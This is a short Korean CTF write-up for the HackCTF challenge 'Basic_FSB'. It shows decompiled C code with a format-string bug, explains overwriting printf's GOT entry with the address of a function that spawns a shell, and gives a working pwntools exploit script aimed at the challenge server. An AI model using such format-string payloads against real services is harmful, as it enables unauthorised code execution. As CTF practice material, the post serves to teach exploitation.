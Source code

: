```yaml
---
title: "[HackCTF]Basic_FSB"
date: 2020-1-8
tags: [HackCTF]
categories: [HackCTF]
---
```


FSB 공부할겸 다시 풀어봤다. 이 문제 샤야테님 강의에 있던 문제랑 거의 유사하다.

```c
int vuln()
{
  char s; // [esp+0h] [ebp-808h]
  char format; // [esp+400h] [ebp-408h]

  printf("input : ");
  fgets(&s, 1024, stdin);
  snprintf(&format, 1024u, &s);
  return printf(&format);
}
```

메인에서 FSB가 터진다. 

```c
int flag()
{
  puts("EN)you have successfully modified the value :)");
  puts("KR)#값조작 #성공적 #플래그 #FSB :)");
  return system("/bin/sh");
}
```

printf@got를 flag주소로 변경해주면 될 것이다.

> exploit.py

```python
from pwn import *

e = ELF('./basic_fsb')
#p = process('./basic_fsb')
p = remote('ctf.j0n9hyun.xyz',3002)
offset = 2

payload = p32(e.got['printf'])
payload += '%' + str(e.symbols['flag'] - 4) + 'c'
payload += '%{}$n'.format(2)

p.sendlineafter(':',payload)

p.interactive()
```

